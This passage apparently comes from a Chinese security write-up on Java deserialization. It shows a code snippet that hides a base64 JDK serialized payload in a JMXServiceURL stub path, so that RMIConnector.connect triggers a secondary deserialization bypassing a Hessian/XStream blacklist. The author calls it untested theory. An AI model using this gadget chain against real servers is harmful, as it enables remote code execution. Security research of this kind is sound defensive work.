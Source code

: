 #### 四、打二次反序列

[![](assets/1706958618-888e4217c806744f15d25dbb04a95c73.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129165616-42ffb93a-be84-1.png)

没过滤 javax.management.remote.rmi

```plain
File file = new File("jdk 的序列化 bin");
byte[] fileBytes = Files.readAllBytes(file.toPath());
String base64 = Base64.getEncoder().encodeToString(fileBytes);

JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi://");
setFieldValue(jmxServiceURL, "urlPath", "/stub/"+base64);
RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);
Method connect = rmiConnector.getClass().getMethod("connect");
Method invoke = MethodUtil.class.getMethod("invoke", Method.class, Object.class, Object[].class);
Object[] ags = new Object[]{invoke, new Object(), new Object[]{ connect,rmiConnector, null}};
```

打 RMIConnector 的二次。需要注意二次使用 jdk 的序列化，不是 hessian 的。

以上未尝试复现，纯理论，实战可能需要改改。

总后致敬**wh1t3p1g**，都是 XStream 的链子。

### 0x06 参考链接
